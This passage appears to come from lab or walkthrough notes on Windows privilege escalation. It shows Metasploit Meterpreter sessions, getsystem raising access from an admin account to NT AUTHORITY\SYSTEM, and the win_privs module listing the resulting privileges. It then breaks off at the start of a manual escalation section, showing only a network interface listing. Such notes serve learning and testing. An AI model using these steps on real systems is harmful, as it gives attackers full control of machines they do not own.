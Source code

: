 `sessions`, `sessions -i 2`, `getuid`:
```
Server username: VICTIM\admin
```

`getsystem`, `getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

`background`, `serch win_privs`, `sessions -i 2`, `run post/windows/gather/win_privs`:
```
Current User
============

 Is Admin  Is System  Is In Local Admin Group  UAC Enabled  Foreground ID  UID
 --------  ---------  -----------------------  -----------  -------------  ---
 True      True       True                     False        1              NT AUTHORITY\SYSTEM

Windows Privileges
==================

 Name
 ----
 SeBackupPrivilege
 SeChangeNotifyPrivilege
 SeCreateGlobalPrivilege
 SeCreatePagefilePrivilege
 SeCreateSymbolicLinkPrivilege
 SeDebugPrivilege
 SeImpersonatePrivilege
 SeIncreaseBasePriorityPrivilege
 SeIncreaseQuotaPrivilege
 SeIncreaseWorkingSetPrivilege
 SeLoadDriverPrivilege
 SeManageVolumePrivilege
 SeProfileSingleProcessPrivilege
 SeRemoteShutdownPrivilege
 SeRestorePrivilege
 SeSecurityPrivilege
 SeShutdownPrivilege
 SeSystemEnvironmentPrivilege
 SeSystemProfilePrivilege
 SeSystemtimePrivilege
 SeTakeOwnershipPrivilege
 SeTimeZonePrivilege
 SeUndockPrivilege
```

---

Perform privilege escalation manually:

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.26/16 brd 10.1.255.255 scope global eth0
inet 10.10.4.10/24 brd 10.10.4.255 scope global eth1
```
